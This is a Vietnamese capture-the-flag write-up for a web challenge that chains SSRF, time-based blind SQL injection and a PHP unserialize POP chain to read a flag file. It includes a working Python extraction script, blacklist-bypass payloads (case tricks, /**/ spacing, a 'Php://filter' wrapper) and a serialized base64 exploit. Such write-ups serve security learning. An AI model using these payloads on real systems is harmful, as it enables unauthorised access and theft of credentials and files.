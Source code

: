 # KMA CTF Birthday - Web exploitation

## Description
Có một hacker vừa gửi mail cho công ty chúng tôi và nói rằng trang web của chúng tôi có một lỗ hổng cực kỳ nghiêm trọng. Hỡi các người anh em thiện lành có thể giúp chúng tôi tìm ra lỗ hổng đó và gửi report cho công ty chúng tôi để bên kỹ thuật sửa chữa, tất nhiên bạn cũng sẽ có thưởng!! XD

*Source code*: Phía trên.

**self note**: Bài này mình giải khi giải đã kết thúc từ lâu nên mình chỉ dựng lại để tập.

## Review Source-Code 1

Cấu trúc web-server:
![tree](tree.png)

**Tóm tắt**:
`index.php`: Nhận `url` parameter và curl nó và chỉ trả về status là true | false.

`admin/index.php`: Admin mới access được.

`api/checkUser.php`: Dính lỗi sql injection khi nối `id` parameter trực tiếp tuy nhiên chỉ ở localhost mới truy cập được trang này. Khá dễ đoán khi mình cần dùng tính năng `curl` trên để curl đến endpoint này, ở đây sql query không trả về bất cứ kết quả gì. Kết hợp với curl đây có lẽ là dạng `sql injection time based`.
```php
if ($_SERVER['REMOTE_ADDR'] === '127.0.0.1') {

  
  if (!isset($_GET['id'])) {
    echo json_encode(array('result' => 'Missing parameter!!'));
  } else {
    $id = $_GET['id'];
    $id = preg_replace('/join|group|having|or|select|from|where|\ /', '',$id);
    $query = 'SELECT * FROM users WHERE id='.$id;
    $result = $conn->query($query);

    if ($result->num_rows > 0) {
      //echo $result;  hmmmm?? Xin lỗi vì lí do bảo mật :))))
    }
  }
} else {
  echo json_encode(array('result' => $_SERVER['REMOTE_ADDR'].'Only localhost can access that feature!!!'));
}
```

# EXPLOIT STEP 1
Ta cần đọc được password của admin bằng time based sql injection

Xây tool bằng python, bypass các `keyword` ở `api/checkUser.php` bằng cách viết hoa nó lên, `dấu cách` có thể thế bằng cách dùng comment `/**/`.

**Python tool**:
```python
#/usr/bin/env python3
import requests
import time

url = 'http://localhost:10666/'
s = requests.Session()

flag = ''
for i in range(1,30):
  for c in range(32,127):
    print(flag + chr(c))
    payload = f"http://localhost/api/checkUser.php?id=1/**/AND/**/IF(SUBSTRING((SELECT/**/paSSwORd/**/FROM/**/users/**/WHERE/**/id=1),{i},1)='{chr(c)}',SLEEP(3),1)"
    try:
      r = s.post(url + 'index.php', data={"url": payload}, timeout=3)
    except:
      flag += chr(c)
      print(f'[FOUND] - {flag}')
      break
```

**account**: admin:admin_password_for_testing

*Thêm một vài lưu ý*:
  
  Khi query để ra username thì không sao nhưng đến `password` lại chẳng ra gì, thử nhiều mới nhớ ra đoạn `or` bị blacklist và replace mất nên cũng cần viết hoa nốt để bypass. MySQL(và phần lớn DBMS khác) cấu hình default là case-insensitive.

  Mình định dùng `ASCII()` MySQL function cho quen và nhằm tránh ký tự đặc biệt nếu gặp đỡ escapce nhưng không được, không dùng cũng không sao, có lẽ mình đã nhầm ở đâu đó nhưng lười thử lại, đã có password rồi.


*Logged-in as admin*:

`admin/index.php`:
![admin area](admin_area.png)

## Review Source-Code 2

**Tóm Tắt**: 
`admin/index.php`: Ok một bài `serialize`, nhận data variable ở cookie mà mình có thể kiếm soát và `unserialize` nó.
```php
<?php 
require '../config.php';
require '../classes/chain.php';
 
if (isset($_SESSION['user']) && $_SESSION['user'] === 'admin')  {
  if (!isset($_COOKIE['data']))
    setcookie('data', base64_encode(serialize(new Url("http://www.ahihi.com"))));
  else {
    $cookie = base64_decode($_COOKIE['data']);
    if (preg_match('/\x00/', $cookie))
      die('Hacker detected :))))');
    else
      unserialize($cookie);
  }
}
else {
  die('Login as admin!!!');
}
?>
```
Chú ý sau khi `base64_decode` nó có check lại liệu `null byte(\x00)` có ở trong chuỗi, có thì trả về `Hacker Detect`.

`../classes/chain.php`: Ok dạng PHP unserialize POP Chains, phân tích dài dòng ở dưới

**Reference**: https://www.php.net/manual/en/language.oop5.magic.php

Tóm tắt  các `magic methods` trước khi review và generate `payload` nào:

**__wakeup()**: Tự động được gọi(Tdddg) sau khi object này được `unserialize()`, đây sẽ là startpoint của chain.

**__construct**:  Tdddg khi tạo 1 object từ class chứa nó đó.

**__invoke**: Tdddg khi gọi 1 object như là 1 hàm

**__toString()**: Tdddg khi "đối xử" với 1 object như string(ex: echo $obj; hay so sánh với string)

**__get()**: Tdddg khi gọi 1 object

Chain tất cả class lại với nhau(trừ class Url) và tạo ra payload nào. 

*Lưu ý*: Dùng lại tất cả các class trên để viết `serialized object` nhưng còn nhớ `Hacker Detect` phía trên chứ, theo PHP thì để biểu thị 1 `property` là private thì khi serialize nó sẽ add thêm `\x00` phía trước tên của property đó nên mình cần sửa `private $source;` của class `Source` thành `public $source;`.
```php
<?php
 
class Source {
  public $source; // trước đây là private $source;

  public function __construct($s) {
    $this->source = $s;
  }
  public function __invoke() {
    return $this->source->method;
  }
}


class File {
  public $file;

  public function __toString() {
    if (!preg_match('/^(http|https|php|data|zip|input|phar|expect):\/\//', $this->file)) {
      include($this->file);
    }
    return "Ahihhii";
  }
}

class Func2 {
  public $param;

  public function __wakeup() {
    $function = $this->param;
    return $function();
  }
}


class Func1 {
  public $param1;
  public $param2;

  public function __get($key) {
    $key = $this->param2;
    return $this->param1->$key();
  }
}

class Url {
  public $url;

  public function __construct($url) {
    $this->url = $url;
  }

  public function checkUrl() {
    if (preg_match('/[http|https]:\/\//', $this->url))
      return true;
    else
      return false;
  } 
}

# generate payload:
# Để viết chain mình(với mình) cần xác định `startpoint` và `endpoint` chính là class `Func2` và `File`.

// Lưu ý bypass php blacklist bằng Php
$fly = new File();
$fly->file = 'Php://filter/convert.base64-encode/resource=../flag.php'; // include flag.php được convert sang base64

$fun1 = new Func1();
$fun1->param1 = $fly;
$fun1->param2 = '__toString'; // gọi __toString() từ File

$src = new Source($fun1); // gọi __get() từ Func1

$fun2 = new Func2();
$fun2->param = $src; // gọi __invoke() từ Source

$data = serialize($fun2);

echo base64_encode($data) . "\n\n";
#unserialize($data); // gọi __wakeup() từ Func2

#Tzo1OiJGdW5jMiI6MTp7czo1OiJwYXJhbSI7Tzo2OiJTb3VyY2UiOjE6e3M6Njoic291cmNlIjtPOjU6IkZ1bmMxIjoyOntzOjY6InBhcmFtMSI7Tzo0OiJGaWxlIjoxOntzOjQ6ImZpbGUiO3M6NTU6IlBocDovL2ZpbHRlci9jb252ZXJ0LmJhc2U2NC1lbmNvZGUvcmVzb3VyY2U9Li4vZmxhZy5waHAiO31zOjY6InBhcmFtMiI7czoxMDoiX190b1N0cmluZyI7fX19
```

Ok, với code trên chỉ cần tập trung đọc hiểu chắc chắn bạn sẽ hiểu, giải thích thành lời sẽ dài dòng và gây rối(tất nhiên là không phải vì mình lười(chắc thế)).

Đổi cookie variable `data` thành chuỗi base64 trên ta được:
![base64 flag](base64_flag.png)

**flag**: `KCSC{fake_flag_for_testing}`
